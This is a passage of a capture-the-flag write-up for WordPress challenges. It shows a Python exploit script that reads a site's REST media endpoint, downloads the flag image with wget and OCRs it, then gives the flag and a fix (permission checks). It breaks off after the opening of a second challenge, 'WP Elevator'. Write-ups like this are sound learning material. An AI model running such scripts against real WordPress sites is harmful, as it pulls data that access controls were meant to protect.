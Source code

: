 Auto Exploit Script with Image to Text:

```python
import requests
import json
import os
import pytesseract
from PIL import Image
from urllib.parse import *

URL = 'http://100.25.255.51:9091/'

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def exploit(self):
		req = requests.get(urljoin(self.url, '/wp-json/wp/v2/media/'))
		imageUrl = json.loads(req.text)[0]['guid']['rendered']
		flagName = imageUrl.split('/')[-1]
		downloadImage = os.system(f'wget {imageUrl}')
		if flagName in os.listdir():
			print('[+] Flag Image Downloaded')

		# Image to Text
		image = Image.open(flagName)
		text = pytesseract.image_to_string(image).replace(' ', '_')

		return text

if __name__ == '__main__':
	run = Exploit()
	print(run.exploit())
```

**Flag:** CTF{67fd32eea87891bc_it_is_a_feature_by_core_xd}

**Remediation:**

- Implementing protection with permission checks (Read [source](https://patchstack.com/academy/wordpress/securing-code/broken-access-control/))

# **WP Elevator**

**Description:**\
Asked my freelance developer friend to write me an authorization plugin so I can share knowledge with selected memebers. He is still working on it but gave me an early version. I don't know how it works but will talk with him once he finishes.
Note: fully whitebox challenge, no need to do massive bruteforce
http://100.25.255.51:9093/

**Analysis:**\
This challenge involved a custom WordPress plugin. We were provided with the source code and a Docker setup to analyze and debug the vulnerability.


[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn